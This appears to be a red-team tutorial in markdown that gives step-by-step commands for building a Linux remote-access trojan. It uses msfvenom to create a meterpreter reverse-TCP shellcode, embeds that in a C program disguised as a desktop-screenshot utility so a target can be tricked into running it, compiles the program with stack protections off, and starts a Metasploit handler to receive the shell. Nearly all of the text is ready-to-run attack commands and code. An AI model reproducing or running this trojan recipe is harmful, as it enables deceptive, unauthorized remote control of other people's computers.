 #### :: EXERCISE OBJECTIVES
Use Metasploit to build shellcode in C format and Insert C shellcode into a C program (RAT)<br />
To be abble to control of a linux system remotely using social engineering.

<br />

#### :: STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### :: [SOCIAL ENGINEERING](https://en.wikipedia.org/wiki/Social_engineering_(security)) (Why execute this?)
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic. **'(Screenshot Function Inside the C Program)'**:<br />

    system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");

<br /><br />

| DEPENDENCIE | DESCRIPTION | FUNCTION | REQUIRED |
|---|---|---|---|
| Metasploit | Metasploit Framework | Build Shellcode + Recive Connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | C Compiler | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | X Window Screenshots | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### :: SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### :: STEP-BY-STEP (HOW-TO)
Execute all the follow commands sequencialy into your terminal windows<br />
All Commands required to acomplish this exercise are inside the grey box(s).<br />
This exercise its written this way to allow readers to work only in terminal windows.<br />

<br /><br />

#### :: Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### :: Start postgresql service

```
sudo service postgresql start
```

<br />

#### :: Use Metasploit to Build Shellcode in C Format
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

- **'Msfvenom Syntax'**
  - -p payload name
  - -b delete nul bites from shellcode
  - -a payload arch
  - -f payload format
  - -o write output to a file 

<br />

#### :: See whats written inside chars.raw (optional)

```
cat chars.raw
```

<br />

#### [Parse](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/bash/parsing_data_in_bash.md) shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

<br />

#### :: Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

<br />

#### :: See whats written inside payload.c (optional)

```
cat payload.c
```

<br />

#### :: Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### :: Start metasploit multi handler
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### :: Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

<br />

#### :: Video Tutorial

[C Shellcode Linux - Video Tutorial](https://blablabla.)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


